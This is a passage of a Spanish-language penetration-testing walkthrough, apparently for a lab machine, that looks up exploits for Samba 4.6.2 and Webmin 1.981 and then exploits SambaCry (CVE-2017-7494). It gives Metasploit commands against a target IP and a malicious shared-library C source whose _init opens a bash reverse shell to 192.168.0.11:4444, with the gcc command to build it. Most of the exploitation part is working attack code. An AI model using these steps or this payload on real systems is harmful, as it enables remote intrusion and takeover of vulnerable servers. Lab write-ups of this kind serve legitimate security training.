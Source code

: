 **Samba 4.6.2**
```bash
# Exploits conocidos para Samba
searchsploit samba 4.6
msfconsole -q -x "search samba 4.6; exit"

# Vulnerabilidades críticas:
# - CVE-2017-7494: SambaCry RCE (Samba 3.5.0-4.6.4)
# - CVE-2017-12163: Server heap-memory disclosure  
```

**Webmin 1.981**
```bash
# Búsqueda específica de exploits
searchsploit webmin 1.98
msfconsole -q -x "search webmin; exit"

# CVEs relevantes:
# - CVE-2019-15107: Remote Code Execution
# - CVE-2020-35606: Privilege escalation
```

### 5.2 Explotación Alternativa: SambaCry

#### Verificación de Vulnerabilidad
```bash
# Verificar si es vulnerable a CVE-2017-7494
smbclient -L $TARGET_IP -N
echo "CVE-2017-7494 - SambaCry"

# Script de verificación
#!/bin/bash
echo "[+] Testing for SambaCry vulnerability..."
if smbclient //$TARGET_IP/tmp -N -c "put /tmp/test.so"; then
    echo "[!] Potentially vulnerable to SambaCry!"
else
    echo "[+] Not vulnerable to SambaCry"
fi
```

#### Exploit de SambaCry
```bash
# Metasploit module
msfconsole -q
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.168.131.129
set LHOST 192.168.0.11
exploit

# Exploit manual
# 1. Crear shared library maliciosa
cat > sambacry.c << 'EOF'
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void _init() {
    system("bash -i >& /dev/tcp/192.168.0.11/4444 0>&1");
}
EOF

gcc -shared -fPIC -nostartfiles -o /tmp/sambacry.so sambacry.c
```
